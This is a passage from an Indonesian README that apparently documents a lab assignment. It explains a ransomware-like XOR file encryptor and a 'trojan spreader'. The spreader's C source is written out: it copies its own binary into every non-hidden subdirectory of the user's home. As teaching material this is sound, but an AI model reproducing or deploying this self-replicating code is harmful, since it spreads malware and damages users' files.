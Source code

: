  ```bash

 write_log(cwd, filename);
 ```
   - fopen → Buka file untuk dibaca & ditulis.
   - fseek & ftell → Cari ukuran file.
   - malloc(size) → Alokasikan buffer.
   - fread → Baca isi file ke buffer.
   - XOR loop → Setiap byte di-XOR dengan key.
   - fwrite → Tulis hasil enkripsi ke file.
   - write_log → Catat file yang telah terenkripsi. 

### 2. Bagian: Trojan Spreader
### Fungsi:
Menduplikasi file binary runme ke semua subdirektori dalam $HOME, kecuali direktori tersembunyi.

### Penjelasan Kode:
#### 2.a **spread_trojan()**
 ```bash
 char *home = getenv("HOME");
 if (!home) return;

 char cwd[PATH_MAX];
 if (!getcwd(cwd, sizeof(cwd))) return;

 char self_path[PATH_MAX];
 ssize_t len = readlink("/proc/self/exe", self_path, sizeof(self_path) - 1);
 if (len == -1) return;
 self_path[len] = '\0';

 spread_recursive(home, self_path, cwd);

 ```
   - Ambil path home user.
   - Ambil path binary file saat ini lewat /proc/self/exe.
   - Lakukan replikasi lewat spread_recursive.

#### 2.b **spread_recursive()**
 ```bash
 DIR *dir = opendir(dir_path);
 if (!dir) return;

 while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
        continue;
    if (entry->d_name[0] == '.') continue;

    snprintf(fullpath, sizeof(fullpath), "%s/%s", dir_path, entry->d_name);
    if (stat(fullpath, &st) == -1) continue;

    if (S_ISDIR(st.st_mode)) {
        char runme_path[PATH_MAX];
        snprintf(runme_path, sizeof(runme_path), "%s/runme", fullpath);

        if (access(runme_path, F_OK) != 0) {
            copy_file(self_path, runme_path, cwd);
        }

        spread_recursive(fullpath, self_path, cwd);
    }
 }
 closedir(dir);
 ```
